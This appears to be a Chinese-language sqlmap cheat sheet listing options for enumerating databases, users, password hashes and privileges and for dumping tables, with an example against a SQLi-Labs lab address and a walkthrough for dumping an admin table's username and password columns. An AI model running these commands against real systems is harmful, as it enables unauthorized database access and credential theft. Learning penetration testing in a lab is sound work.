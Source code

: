 ##### 1、基本参数

```
--is-dba       // 当前用户权限
--dbs          // 所有数据库
--current-db   // 当前数据库
--users        // 所有数据库用户
--current-user // 当前数据库用户
--tables       // 表名
--columns      // 字段名
--dump         // 获取表中数据，包含列
--dump-all     // 转存DBMS数据库所有表项目
--level        // 测试等级(1-5)默认为1
--passwords    // 枚举所有用户密码
--roles        // 列出数据库管理员角色
--privileges   // 列出数据库管理员权限
--dbms  "mysql"  // 指定数据库类型

-D 指定数据库
-T 指定表
-C 指定列
--dbms='mysql' // 指定数据库类型

sqlmap -u "http://192.168.226.130:86/Less-1/?id=1" --schema(所有库+表) --batch(默认yes) --exclude-sysdbs(排除系统数据库)         // 列举数据库系统架构
123456789101112131415161718192021
```

读取数据库–>读表–>读列–>读内容

```
--current-db                                 // 当前数据库

--tables -D xycms(DatabaseName) --count      // 指定数据库列表名,并统计表中有多少数据

--columns -T manage_user(TableName) -D xycms // 指定表名列列名

--dump -C m_name,m_pwd -T manage_user(TableName) -D xycms // 指定列名列数据
1234567
```

##### 2、显示调试信息

```
-v 显示调试信息 有7个级别

0、只显示python错误以及严重的信息
1、同时显示基本信息和警告信息(默认)
2、同时显示debug信息
3、同时显示注入的payload
4、同时显示http请求
5、同时显示http响应头
6、同时显示http响应页面
123456789
```
